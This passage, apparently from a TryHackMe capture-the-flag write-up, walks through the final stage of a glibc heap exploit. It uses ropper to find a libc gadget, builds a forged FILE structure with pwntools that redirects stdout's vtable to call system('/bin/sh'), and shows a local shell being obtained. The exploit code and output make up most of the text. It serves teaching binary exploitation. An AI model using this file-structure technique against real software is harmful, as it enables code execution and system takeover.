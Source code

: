 Next, we can move on to creating our fake file structure. We already have pretty much everything we need for it; we only need to find the address of an `add rdi, 0x10 ; jmp rcx` gadget in the **libc**, which we can do using `ropper` as follows:

```console
$ ropper -f libc.so.6 --search 'add rdi, 0x10; jmp rcx'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: add rdi, 0x10; jmp rcx

[INFO] File: libc.so.6
0x00000000001724f0: add rdi, 0x10; jmp rcx;
```

Now we can create our fake file structure as follows:

```py
...
fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end = libc.sym['system']
fake._IO_save_base = libc.address + 0x1724f0  # add rdi, 0x10 ; jmp rcx
fake._IO_write_end = u64(b'/bin/sh'.ljust(8,b'\x00'))
fake._lock = libc.sym['_IO_stdfile_1_lock']
fake._codecvt = stdout + 0xb8
fake._wide_data = stdout + 0x200
fake_vtable = libc.sym['_IO_wfile_jumps'] - 0x18
fake.unknown2 = p64(0)*2 + p64(stdout+0x20) + p64(0)*3 + p64(fake_vtable)
...
```

At last, all we have to do is write the `stdout` with our file structure by editing the entry at the `7th` index with it, as follows:

```py
...
edit(7, bytes(fake))
r.interactive()
```

As we can see, using the script, we are able to get a shell locally.

```console
$ python3 exploit.py
[+] Libc Leak: 0x7fe9f1804100
[+] Libc Base : 0x7fe9f1600000
[+] Heap Leak: 0x55fc7c6d3400
[+] Heap Base : 0x55fc7c6d3000
$ whoami
kali
```

> At this point, I simply tried editing the script to run it against the target, but encountered a strange issue where running the script from my own VM would cause the executable on the target to spam the menu forever. But running it from the `AttackBox` provided by `TryHackMe` works fine. So, I recommend you do the same. Also, if you know the reason for it, please let me know.  
{: .prompt-danger }
